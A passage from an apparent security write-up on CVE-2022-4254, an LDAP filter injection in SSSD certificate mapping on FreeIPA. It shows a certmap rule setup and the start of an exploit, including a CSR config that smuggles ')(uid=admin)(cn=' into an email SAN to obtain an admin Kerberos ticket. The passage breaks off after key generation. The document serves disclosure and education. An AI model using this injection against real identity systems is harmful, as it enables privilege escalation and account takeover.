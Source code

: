 Finally add the certmap rule.  It has a two-part *or-list* intended
to match the `rfc822Name` from the certificate to the `mail`
attribute, or else match the certificate subject DN to DN of the
LDAP entry:

```shell
# ipa certmaprule-add certmap1 --maprule \
    "(|(mail={subject_rfc822_name})(entryDN={subject_dn}))"
--------------------------------------------------
Added Certificate Identity Mapping Rule "certmap1"
--------------------------------------------------
  Rule name: certmap1
  Mapping rule: (|(mail={subject_rfc822_name})(entryDN={subject_dn}))
  Enabled: TRUE
```

::: note

The steps performed above are not part of the exploit itself, and
they require administrator privileges to perform.  They are
presented as plausible configurations, the likes of which *may*
exist (or not) in a customer's environment.

:::

### Exploit

`alice` will request a certificate with the suspicious `rfc822Name`
and **acquire a TGT for the `admin` user**.  First obtain a TGT for
`alice` (using password authentication):

```shell
$ kinit alice
Password for alice@IPA.TEST:
```

Create a new keypair and certificate signing request (CSR).  The
config causes the CSR to bear a SAN extension request containting
the malicious `rfc822Name`:

```shell
$ echo > naughty.conf <<EOF
[ req ]
prompt = no
encrypt_key = no
distinguished_name = dn
req_extensions = exts
[ dn ]
commonName = "alice"
[ exts ]
subjectAltName=email:\"bogus)(uid=admin)(cn=\"@ipa.test
EOF

$ openssl req -new -config naughty.conf \
    -keyout naughty.key -out naughty.csr
Generating a 2048 bit RSA private key
..........+++
......................+++
writing new private key to 'naughty.key'
-----
```


[FreeIPA]: https://www.freeipa.org/
[RFC 4556]: https://datatracker.ietf.org/doc/html/rfc4556
[CVE-2022-4254]: https://access.redhat.com/security/cve/CVE-2022-4254
[SSSD]: https://sssd.io/
[SSSD 1.15.3]: https://sssd.io/release-notes/sssd-1.15.3.html
[SSSD 2.3.1]: https://sssd.io/release-notes/sssd-2.3.1.html
[pagure#4180]: https://pagure.io/SSSD/sssd/issue/4180
[github#5135]: https://github.com/SSSD/sssd/issues/5135
[RFC 4515]: https://datatracker.ietf.org/doc/html/rfc4515
[CWE-90]: https://cwe.mitre.org/data/definitions/90.html
[CWE-89]: https://cwe.mitre.org/data/definitions/89.html
[blog post on this topic]: https://frasertweedale.github.io/blog-redhat/posts/2017-06-26-freeipa-wildcard-san.html
[commit]: https://github.com/SSSD/sssd/commit/a2b9a84460429181f2a4fa7e2bb5ab49fd561274
[commit-1.16]: https://github.com/SSSD/sssd/commit/918fb32af6a271230bf87db47f78768edb9ca86c